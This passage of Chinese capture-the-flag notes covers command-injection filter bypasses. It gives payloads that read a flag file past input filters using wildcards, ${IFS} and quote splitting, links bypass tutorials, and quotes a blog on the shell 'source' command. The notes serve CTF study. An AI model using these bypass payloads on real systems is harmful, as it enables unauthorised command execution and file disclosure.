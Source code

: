 ```bash
/bin/?at${IFS}f???????
```

?是占位符

# 53 bash

[bash绕过方式]: https://blog.51cto.com/u_15127695/4278470	"bash绕过方式"

```bash
c''at${IFS}fla''g.p''hp
```

\${IFS},IFSIFS9,\$IFS空格代替

# 56 无字母数字命令执行 提高

https://blog.csdn.net/qq_46091464/article/details/108513145

## linux下点号的使用(.)

https://blog.sina.com.cn/s/blog_af68a2c201016nh2.html

> source命令：
>
> source命令也称为“点命令”，也就是一个点符号（.）。
>
> source命令通常用于重新执行刚修改的初始化文件，使之立即生效，而不必注销并重新登录。
>
> 用法： 
>
> source filename 或 . filename
>
> source命令除了上述的用途之外，还有一个另外一个用途。在对编译系统核心时常常需要输入一长串的命令，如：
>
> make mrproper
>
> make menuconfig
>
> make dep
>
> make clean
>
> make bzImage
>
> …………
>
> 如果把这些命令做成一个文件，让它自动顺序执行，对于需要多次反复编译系统核心的用户来说会很方便，而用source命令就可以做到这一点，它的作用就是把一个文件的内容当成shell来执行，先在linux的源代码目录下（如/usr/src/linux-2.4.20）建立一个文件，如make_command，在其中输入一下内容：
>
> make mrproper &&
>
> make menuconfig &&
>
> make dep &&
>
> make clean &&
>
> make bzImage &&
>
> make modules &&
>
> make modules_install &&
>
> cp arch/i386/boot/bzImage /boot/vmlinuz_new &&